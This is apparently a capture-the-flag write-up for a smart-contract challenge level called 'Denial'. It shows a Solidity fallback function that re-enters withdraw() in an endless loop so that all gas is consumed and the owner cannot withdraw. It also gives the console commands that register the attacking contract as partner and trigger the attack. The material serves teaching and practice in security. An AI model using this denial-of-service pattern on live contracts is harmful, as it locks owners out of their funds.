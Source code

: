 > If you can deny the owner from withdrawing funds when they call withdraw() you will win this level
> (whilst the contract still has funds, and the transaction is of 1M gas or less)

## Stalling the transactions

The partner is paid before the owner:

```solidity
partner.call{value:amountToSend}("");
payable(owner).transfer(amountToSend);
```

Also there absolutely no restrictions on any function:
anyone can switch the partner and trigger the withdraw.

Even though the status of the transfer is not checked, it could still consume all the gas for the transaction.
With an infinite loop for example:

```solidity
fallback() external payable {
    while(true) {
        Denial(TARGET).withdraw();
    }
}
```

The re-entrancy vulnerability may-have been enough to settle the deal on its own.
Since we're going for a DOS attack, worse is better so I put it inside an infinite loop too.

Finally, it can be setup & tested with:

```js
await contract.setWithdrawPartner('0x0b61014185985b3354B4d0e1024AcDEd9aB129B3')
await contract.withdraw()
```
